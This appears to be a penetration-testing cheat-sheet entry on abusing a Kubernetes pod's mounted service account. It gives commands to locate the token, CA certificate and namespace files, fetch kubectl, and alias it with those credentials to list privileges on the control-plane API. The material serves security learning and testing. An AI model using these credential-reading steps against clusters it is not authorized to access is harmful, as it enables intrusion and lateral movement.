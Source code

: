 # Attacking

**Details:** This entry details how to use serviceaccount details that are mounted into a pod to run command on the control plane API

**Requirements:** kubectl

## Pod service accounts

```mount | grep kube```

Searching for the serviceaccount folder (Default: /run/secrets/kubernetes.io/serviceaccount)

Important files:
* ca.crt
* namespace
* token (service account token)

```
env

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=nginx-6799fc88d8-2pgh2
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
NGINX_VERSION=1.19.6
NJS_VERSION=0.5.0
PKG_RELEASE=1~buster
HOME=/root

```

Search environment variables for api endpoints

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Downloading a copy of [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/) (chmod u+x before running)

```
alias kubectl="<path_to_kubectl> --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://<api_server_ip>:<api_server_port>"
```

Setup kubectl command with discovered credentials from serviceaccount folder

```kubectl auth can-i --list```

List all privileges with current context



